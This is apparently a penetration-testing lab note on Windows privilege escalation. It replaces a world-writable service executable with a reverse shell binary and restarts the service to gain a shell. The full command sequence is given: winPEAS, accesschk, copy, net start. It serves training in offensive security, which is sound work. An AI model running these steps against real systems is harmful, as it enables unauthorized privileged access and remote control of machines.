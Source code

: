 # Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../../.gitbook/assets/image%20%2886%29.png)

Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:

```text
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](../../../../../.gitbook/assets/image%20%2891%29.png)

Create a backup of the original service executable:

```text
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

Copy the reverse shell executable to overwrite the service executable:

```text
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](../../../../../.gitbook/assets/image%20%2896%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start filepermsvc
```

![](../../../../../.gitbook/assets/image%20%2883%29.png)











